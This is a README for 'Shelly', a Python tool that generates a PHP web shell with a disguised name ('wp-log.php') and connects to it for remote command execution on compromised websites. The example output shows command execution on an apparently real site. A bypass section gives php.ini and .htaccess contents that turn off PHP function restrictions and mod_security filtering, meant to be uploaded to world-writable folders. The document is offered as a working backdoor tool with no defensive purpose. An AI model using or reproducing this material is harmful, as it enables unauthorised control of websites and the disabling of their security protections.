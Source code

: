 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](capture/capture-2.png)
<br>
Shelly is a simple tool that is written using Python, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g wp-log -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ python3 shell.py -u "https://www.pamz3d.com/wp-log.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
![Screenshoot](capture/capture.png)
![Screenshoot](capture/capture-3.png)

### Disable Function Bypass :
<ul>
   <li>look for the folder whose permissions 777 (rwx rwx rwx)</li>
   <li>Upload file php.ini </li>
</ul>
<pre>
safe_mode = OFF
disable_functions = NONE
</pre>
<ul>
   <li>And upload file .htaccess</li>
 </ul>
<pre>
<IfModule mod_security.c>
SecFilterEngine Off
SecFilterScanPOST Off
</IfModule>
</pre>


### Artikel :
<ul>
   <li>https://www.tegal-1337.com/2020/01/meremote-sebuah-website-menggunakan.html</li>
</ul>

### Contact :
<ul>
  <li> Email : van@tegalsec.org</li>
</ul>
